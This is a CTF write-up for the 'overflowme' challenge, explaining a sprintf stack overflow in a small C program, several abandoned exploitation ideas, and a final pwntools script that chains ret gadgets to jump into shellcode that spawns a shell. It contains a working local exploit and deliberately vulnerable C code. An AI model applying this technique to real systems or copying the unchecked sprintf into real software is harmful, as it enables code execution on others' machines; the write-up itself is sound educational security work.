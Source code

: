 ```yaml
---
layout: post
title:  "Overflowme Writeup"
date:   2019-01-02 00:44:51 +0800
categories: jekyll update
---
```


## 0x00 Introduction

Actually this problem is not hard, but I didn't get the point at the beginning, so it spent me about a few hours... Therefore, I wrote this writeup to record and conclude for myself.

## 0x01 Problem

obvious stack overflow，as shown

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "inspection.h"
void vuln(char *str) {
    char buf[770];
    sprintf(buf, "Hello %s", str);
    puts(buf);
    fflush(stdout);
    return;
}

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv) {

    if (argc != 2) {
        printf("Usage: %s [name]\n", argv[0]);
        return 1;
    }
    be_nice_to_people();
    vuln(argv[1]);
    return 0;
}
```

The input is the argv[1], so to debug using gdb, we need to do this in pwntool python script

```python
sh = gdb.debug(["./overflowme", payload], "b vuln")
```

instead of

```python
sh = process(["./overflowme", payload])
```

when executing the process

## 0x02 Approach

### find jmp esp/jmp ebx/jmp ebp/call esp/call ebx/call ebp

When vuln terminates, where control flow can be hijacked:

![](overflowme_register.png)

ebx/esp/ebp points to stack, which means that we can fill this address using our payload. However, there is no such instruction in this program since the program is so small.

Then, I was thinking about ROP to move value of ebx to eax/edx and return to call eax/edx, which this program has.

However, again, the program is so small that we cannot find such ROP chain.

Then I found that data segment of this program is both writable and executable, and we know address of data segment, so I would like to find something like DWORD SHOOT to construct such instruction in data segment and return to the instruction that I created.

This program is small, the only possible DWORD SHOOT is using register ebp as base address register, so we need to change ebp to pointer in data segment. However, after those instruction, "leave" instruction is executed, so esp=ebp, but ebp points to data segment, so return address is not controlled by me anymore. Same for the method to shoot esp into data segment and use push to change data in data segment. \(This one is even more impossible, since change esp to somewhere uncontrollable cannot help us in constructing ROP\)

What about using sprintf? This can write data into data segment if we let dst pointer point to data segment. However, our we don't know address of stack, but our payload is in stack, so we cannot do this.

What about using %x in data segment to shoot something into code segment? In this way what we need is value that can be controlled instead of address pointing to out payload. However, the possible bytes are limited, alpha shellcode is possible, but quite complicated to construct. \(will try this if I have time later\)

At this point, I realized that I was thinking in the wrong direction, since I do not think this question is hard like that.

### find ROP that output GOT and input system address

I have used this technique in solving caas, in which I constructed ROP in heap and the address of heap is known. Thus, I can manipulate ebp in the way that leave/ret will help us to execute next call. However, in this case, stack address is unknown, so we cannot do this. 

However, in this case, we have "add,esp xxx; pop xxx; pop xxx; ret" \(There is no leave\). Thus we can execute sequence of call without need to know stack address.

However, there is not such function imported as read/scanf, so we cannot do this.

### utilize data in stack

Utilizing data in register cannot succeed, so why not utilize data in stack? It is possible.

![](overflowme_stack.png)

This is stack when ret in vuln is executed. Nice! The 2nd dword in stack points to our payload since argument of vuln is pointer to our input, so as long as we make return address to be a ret, double ret will make eip jump to our shellcode!

What's the problem here? The overflow function is sprintf, in which there is '\0' added in the end, so least significant byte of pointer to our input will be changed to 0, so this address is no longer our input anymore but something previous, which causes segmentation fault before shellcode is reached.

How to solve this? If we can find a ret with address 0x080400xx or 0x08048600 \(partly overflow\), we can ret to that ret, so pointer to out input will not be corrupted. Unluckily, there is no such ret. 

However, we can do several sequence of ret until next dword, if least significant byte being cleared to 0, will point to our shellcode.

Actually,  if we clear LSB of 0xffffcb78 to get 0xffffcb00, we can find that

![](overflowme_see.png)

Wow! This can be our shellcode if we put shellcode in the end of payload!

Thus, final exp is

```python
from pwn import *
g_local = False
shellcode = asm("sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;" + shellcraft.i386.linux.sh())
# sub esp is to prevent the data being pushed into stack in shellcode corrupt shellcode itself, important in NX disabled exploitation
overflow_len = 0x308
if g_local:
	padding = 0#x18
else:
	padding = 0#x28

payload = ("A" * (overflow_len - len(shellcode) - padding)) + shellcode + "A"*padding + p32(0x8048615) * 3
# 0x8048615 is address of ret

if g_local:
	#sh = gdb.debug(["./overflowme", payload], "b vuln")
	sh = process(["./overflowme", payload])
else:
	sh = process(["/problems/b0b419078e5ac70c47a50b04b2aae2d9/overflowme", payload])

print hex(len(payload))
print payload

sh.interactive()
```

